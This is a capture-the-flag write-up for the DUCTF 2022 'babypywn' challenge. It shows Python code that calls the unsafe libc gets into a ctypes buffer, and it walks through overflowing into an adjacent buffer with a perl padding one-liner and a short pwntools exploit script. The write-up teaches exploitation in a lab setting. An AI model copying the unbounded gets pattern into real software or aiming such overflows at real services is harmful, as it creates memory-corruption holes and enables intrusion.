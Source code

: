 # babypywn

For this challenge we are given the source code for a python file called babypwn.py running on the remote server.

```
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

From a first glance this looked something to do with buffer overflow so I ran it locally and used the addressof() and saw the buffers are 512 bytes apart indicating they are alligned one after another.


![memory addresses](/ductf_2022/babypywn/memory.png)


Looking at the Memory addresses of the buffers I thought they would grow lower as is on the stack.
But after some research I learned that python objects are placed on the heap hence the addressing grows upwards. This means we could overflow from the memory of buf1 into buf2.  


  ![stack image](https://courses.engr.illinois.edu/cs225/fa2022/assets/notes/stack_heap_memory/memory_layout.png)

Lets have a look at that line libc.gets(buf1), some googling reveals what it is and provides a description. 


![gets man page](/ductf_2022/babypywn/gets.png)


The last line "no check for buffer overrun is performed" is music to our ears.

We can use perl to generate a buffer 512 bytes long "perl -E 'say "a" x 512' appending 'DUCTF' to the end should cause the flag to be outputed.

We can then use pwn tools to send our buffer and get the flag.

```
from pwn import *
c = remote('0.0.0.0', 8080)
c.sendline(b'aaaaaaaaaa...'+ b'DUCTF')
print(c.recvline().decode())
```